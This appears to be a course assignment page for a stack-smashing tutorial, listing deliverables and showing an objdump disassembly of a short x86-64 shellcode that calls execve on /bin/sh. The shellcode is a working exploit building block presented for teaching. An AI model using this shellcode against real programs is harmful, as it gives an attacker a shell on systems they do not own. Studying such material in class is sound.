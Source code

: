 # Deliverables
 
1. Scripts containing the commands or other building blocks you used to pull off the attack.
1. A file of notes that tells me what you had to learn to understand the tutorial (it will just be a list of places you got confused, and how you resolved the confusion).
1. Everyone should be prepared to answer questions.



## The shell game

`objdump -d a.out | sed -n '/needle0/,/needle1/p'`

00000000004004b8 <needle0>:
  4004b8:       eb 0e                   jmp    4004c8 <there>

00000000004004ba <here>:
  4004ba:       5f                      pop    %rdi
  4004bb:       48 31 c0                xor    %rax,%rax
  4004be:       b0 3b                   mov    $0x3b,%al
  4004c0:       48 31 f6                xor    %rsi,%rsi
  4004c3:       48 31 d2                xor    %rdx,%rdx
  4004c6:       0f 05                   syscall

00000000004004c8 <there>:
  4004c8:       e8 ed ff ff ff          callq  4004ba <here>
  4004cd:       2f                      (bad)
  4004ce:       62                      (bad)
  4004cf:       69 6e 2f 73 68 00 ef    imul   $0xef006873,0x2f(%rsi),%ebp

00000000004004d5 <needle1>:


